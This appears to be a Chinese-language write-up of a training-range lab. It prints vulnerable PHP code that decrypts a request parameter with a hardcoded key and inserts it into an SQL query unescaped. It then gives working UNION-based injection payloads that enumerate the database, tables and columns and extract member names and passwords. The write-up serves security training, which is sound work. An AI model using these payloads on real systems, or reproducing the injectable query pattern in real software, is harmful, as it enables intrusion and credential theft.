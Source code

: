 ```plain
下载后发现源代码：
function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-6)!=='_mozhe'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-6);
	}
}
$id=decode($_GET['id']);
$sql="select id,title,content,time from notice where id=$id";
$info=$link->query($sql);
$arr=$info->fetch_assoc();
?>
```

![1645073944052-c7afbb14-74fb-4f0b-b284-379d62c25615.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230909221000491-1041103283.png)

```plain
发现两次base64解码，而解密平台只有一次解密，所以需要用工具进行一次解码后，在进行平台解密。经过解码，发现明文:
```

![1645073972425-467ced6b-87cd-434b-b84a-cece8b924120.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230909221008858-1964783309.png)

```plain
Wp:https://blog.csdn.net/qq_38963246/article/details/99065936
构造查询数据库语句： -1 union select 1,database(),3,4_mozhe，经过编码转化得到：MXVsZkNDTGNMTE9yMTJiVHFyNytGVm0rZ2R4ZHllMHRTbTZBNW4rQ2cwZ3ZMK1NFWFoyMkZ3ZVNUTmF5czgxQw==
```

![1645074001139-553a09c9-bdc3-47c5-a227-c7a3449530a3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230909221022418-1862568162.png)

```plain
得到数据库后，查询数据库的表：
1 and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup' limit 0,1_mozhe
经过加密，注入得到：
```

![1645074029481-b8aa1c05-b731-4e6b-971d-b3d13cf29dd1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230909221036651-1921232619.png)

```plain
获取字段：
1 and 1=2 union select 1,COLUMN_NAME,COLUMN_TYPE,4 from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_Discuz_StormGroup' and TABLE_NAME='StormGroup_member' limit 1,1_mozhe
获取数值：
1 and 1=2 union select 1,CONCAT(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1_mozhe
```

